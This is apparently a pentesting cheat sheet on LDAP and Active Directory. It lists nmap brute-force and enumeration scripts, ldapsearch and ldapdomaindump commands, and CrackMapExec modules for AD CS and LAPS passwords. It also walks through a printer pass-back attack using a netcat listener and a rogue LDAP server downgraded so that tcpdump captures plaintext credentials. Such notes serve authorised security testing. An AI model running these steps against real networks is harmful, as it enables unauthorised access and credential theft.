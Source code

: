 ```yaml
---
title: LDAP (Lightweight Directory Access Protocol) Pentesting
description: LDAP is a standard protocol designed to maintain and access "directory services" within a network. Default ports are 389 (LDAP), 636 (LDAPS), 3268 (LDAP connection to Global Catalog), 3269 (LDAP connection to Global Catalog over SSL).
tags:
    - Active Directory
    - Windows
refs:
date: 2023-08-26
draft: false
---
```


## Enumeration

```sh
nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
nmap --script ldap-search -p 389 <target-ip>
nmap --script ldap-* -p 389 <target-ip>
nmap --script "ldap* and not brute" -p 389 <target-ip>
```

<br />

## Search LDAP

Belows are defined in LDAP.

- **cn - Common Name**
- **dc - Domain Component**
- **ou - Organizational Unit**

```sh
# -b: base dn for search
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com"
ldapsearch -x -H ldap://10.0.0.1:636 -b "dc=example,dc=com"

# As administrator
# -D: bind DN
# -w: bind password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -w password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -W

# Search sAMAccountName
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName"
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName" | grep sAMAccountName

# Get information
ldapsearch -x -H ldap://10.0.0.1 -b "cn=sample,cn=Users,dc=example,dc=com" -w 'password' "(objectclass=*)" -D "example\\name"
```

<br />

## Dump Active Directory Information

If you have the credential, you can get the Active Directory information via LDAP.

```sh
# --no-html: Disable html output
# --no-grep: Disable greppable output
# -o: Output dir
ldapdomaindump -u 'DOMAIN\username' -p password <target-ip> --no-html --no-grep -o dumped
```

<br />

## Connect

### AD CS (Active Directory Certificate Services)

```sh
cd crackmapexec
# -M: module
poetry run crackmapexec ldap <target-ip> -d 'domain' -u 'username' -p 'password' -M adcs
```

### LAPS (Local Administrator Password Solution)

```sh
cd crackmapexec
# -M: module
poetry run crackmapexec ldap <target-ip> -u 'username' -p 'password' --kdcHost <target-ip> -M laps
```

<br />

## Pass-Back Attack

Attack against the network devices such as printers.  
For example, access http://printer.sub.example.com/settings.aspx

Open a listener for connecting back to your local machine.

```sh
nc -vp 1389
```

In your browser, test LDAP settings where you input username and password.

### Host Rogue LDAP Server

If we cannot connect back in local machine by netcat, we need to create a rogue LDAP server.  
Install the dependencies at first.

```sh
sudo apt update
sudo apt install -y slapd ldap-utils
sudo systemctl enable slapd
``` 

Configure your own rogue LDAP server by executing the following command.

```sh
sudo dpkg-reconfigure -p low slapd

# ---------------------------------------------------

# in configuration dialog

1. Omit OpenLDAP server configuration: No
2. DNS domain name: <target-domain>
3. Organization name: <target-domain>
4. Administrator password: <arbitrary-password>
5. Database backend to use: MDB
6. Do you want the database to be removed when slapd is purged?: No
7. Move old database?: Yes
```

We need to make your rogue LDAP server to be vulnerable by downgrading the supported authentication mechanism.  
Create the config file named "config.ldif".

```txt
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Now we can use the config file to patch the LDAP server.

```sh
# -Y: SASL mechanism
# -H: URI
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./config.ldif
sudo service slapd restart
```

We can verify that the rogue LDAP server’s configuration has been applied:

```sh
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

For capturing the credentials, run the following command.

```sh
sudo tcpdump -SX -i <target-interface-like-eth0> tcp port 389
```

In browser, test the printer settings and capture the credentials via tcpdump.

